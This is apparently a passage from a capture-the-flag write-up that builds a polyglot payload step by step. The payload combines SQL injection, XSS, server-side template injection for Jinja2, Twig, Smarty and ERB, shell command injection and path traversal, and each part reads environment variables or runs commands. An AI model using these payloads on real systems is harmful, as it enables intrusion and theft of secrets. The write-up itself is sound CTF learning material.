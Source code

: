 ### Brainfuck

Since all invalid Brainfuck commands are removed, a cool trick was to include it at the start of the payload inside the SQL query. By putting it in the first column we don't have the "," that would break it.

```SQL
9 union select "[.>],[.,]",flag,0 from flag--＇ union select flag,null,null from flag--
```

### SSTI

Twig and Jinja 2 start with the delimiter `{{`, so we need to find a payload that would work on both. I opted for the easy solution by checking if lipsum was defined.

```py
{% if lipsum is defined %}
    {{lipsum.__globals__['os'].popen("env").read()}} # Jinja
{% else %}
    {{['env']|filter('system')}} # Twig
{% endif %}
```

Now, we can add the Smarty payload by encapsulating the previous payload inside Smarty comment.

```py
{system("env")}
{*
    {% if lipsum is defined %}
        {{lipsum.__globals__['os'].popen("env").read()}}
    {% else %}
        {{['env']|filter('system')}}
    {% endif %}
*}
```

Finally we can add the ERB SSTI, the Bash, and the Path Traversal payload after it.

```ps1
<%=ENV["FLAG"]%>
';env;'
/../../../proc/self/environ
```

### Final Payload

```ps1
9 union select "[.>],[.,]",flag,0 from flag--＇union select flag,null,null from flag--</script><img src=x onerror=alert(flag)>{system("env")}{*{% if lipsum is defined %}{{lipsum.__globals__['os'].popen("env").read()}}{% else %}{{['env']|filter('system')}}{% endif %}*}<%=ENV["FLAG"]%>';env;'/../../../proc/self/environ
```

After the event I noticed it was possible to reduce the size of this payload by replacing `null` to `0`, and removing spaces in the SSTI payloads.

```ps1
9 union select "[.>],[.,]",flag,0 from flag--＇union select flag,0,0 from flag--</script><img src=x onerror=alert(flag)>{system('env')}{*{%if lipsum is defined%}{{lipsum.__globals__['os'].system('env')}}{%else%}{{['env']|filter('system')}}{%endif%}*}<%=ENV["FLAG"]%>';env;'/../../../proc/self/environ
```
